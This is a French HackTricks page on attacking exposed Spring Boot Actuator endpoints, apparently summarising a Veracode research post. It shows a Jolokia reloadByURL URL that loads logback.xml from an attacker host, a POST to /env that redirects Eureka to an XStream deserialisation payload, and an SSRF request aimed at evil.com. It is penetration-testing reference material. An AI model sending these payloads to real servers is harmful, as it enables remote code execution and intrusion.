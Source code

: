 # Spring Actuators

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
{% endhint %}

## **Bypass d'authentification Spring**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**Provenant de** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Exploitation des Actuators Spring Boot

**Consultez le post original de** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Points Clés :**

* Les Actuators Spring Boot enregistrent des points de terminaison tels que `/health`, `/trace`, `/beans`, `/env`, etc. Dans les versions 1 à 1.4, ces points de terminaison sont accessibles sans authentification. À partir de la version 1.5, seuls `/health` et `/info` sont non sensibles par défaut, mais les développeurs désactivent souvent cette sécurité.
* Certains points de terminaison des Actuators peuvent exposer des données sensibles ou permettre des actions nuisibles :
* `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, et `/heapdump`.
* Dans Spring Boot 1.x, les actuators sont enregistrés sous l'URL racine, tandis que dans 2.x, ils sont sous le chemin de base `/actuator/`.

### **Techniques d'Exploitation :**

1. **Exécution de Code à Distance via '/jolokia'** :
* Le point de terminaison de l'actuator `/jolokia` expose la bibliothèque Jolokia, qui permet l'accès HTTP aux MBeans.
* L'action `reloadByURL` peut être exploitée pour recharger les configurations de journalisation à partir d'une URL externe, ce qui peut conduire à un XXE aveugle ou à une Exécution de Code à Distance via des configurations XML élaborées.
* Exemple d'URL d'exploitation : `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Modification de Configuration via '/env'** :
* Si les bibliothèques Spring Cloud sont présentes, le point de terminaison `/env` permet de modifier les propriétés environnementales.
* Les propriétés peuvent être manipulées pour exploiter des vulnérabilités, telles que la vulnérabilité de désérialisation XStream dans le service Eureka serviceURL.
* Exemple de requête POST d'exploitation :

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```
3. **Autres Paramètres Utiles** :
* Des propriétés comme `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, et `spring.datasource.tomcat.max-active` peuvent être manipulées pour diverses exploitations, telles que l'injection SQL ou la modification des chaînes de connexion à la base de données.

### **Informations Supplémentaires :**

* Une liste complète des actuators par défaut peut être trouvée [ici](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
* Le point de terminaison `/env` dans Spring Boot 2.x utilise le format JSON pour la modification des propriétés, mais le concept général reste le même.

### **Sujets Connexes :**

1. **Env + H2 RCE** :
* Les détails sur l'exploitation de la combinaison du point de terminaison `/env` et de la base de données H2 peuvent être trouvés [ici](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).
2. **SSRF sur Spring Boot par une Interprétation Incorrecte des Noms de Chemin** :
* La gestion des paramètres de matrice (`;`) dans les noms de chemin HTTP par le framework Spring peut être exploitée pour une Contre-attaque de Requête Côté Serveur (SSRF).
* Exemple de requête d'exploitation :

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
</details>
{% endhint %}
